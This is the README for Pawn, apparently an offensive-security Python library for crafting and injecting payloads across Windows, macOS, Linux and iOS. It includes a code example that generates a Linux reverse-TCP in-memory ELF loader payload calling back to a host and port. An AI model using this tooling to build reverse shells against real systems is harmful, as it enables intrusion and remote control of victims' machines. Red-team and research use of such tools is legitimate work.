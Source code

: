 # Pawn

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://entysec.github.io/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

payload, send_size = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    host='127.0.0.1',
    port=8888
)

print(len(payload))
print(payload)
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).